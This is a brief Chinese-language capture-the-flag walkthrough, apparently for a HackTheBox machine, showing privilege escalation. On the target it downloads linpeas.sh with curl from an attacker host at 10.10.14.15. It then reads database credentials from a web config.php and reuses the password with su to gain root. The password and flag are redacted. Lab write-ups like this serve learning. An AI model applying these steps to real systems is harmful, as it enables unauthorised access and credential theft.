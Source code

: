 ```

# 提权

传linpea到靶机
> curl http://10.10.14.15:8000/linpeas.sh -o /tmp/linpeas.sh


发现有一个```cap_chown```的能力可以用于提权，但是查了半天不知道咋用

无聊去web站点看看配置文件，尝试su root，居然，成功了。。。。

```
$ cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "{这个是密码}";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
$ su
Password: {这个是密码}

id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
{就不告诉你}

```

